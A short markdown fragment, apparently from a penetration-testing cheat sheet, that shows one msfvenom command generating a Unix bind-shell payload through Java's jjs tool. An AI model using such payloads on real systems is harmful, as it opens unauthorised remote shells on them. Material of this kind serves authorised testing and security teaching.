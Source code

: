 # Java

## 01 - Generate a payload via `msfvenom`

```
$ msfvenom -p cmd/unix/bind_jjs lport=<PORT>
```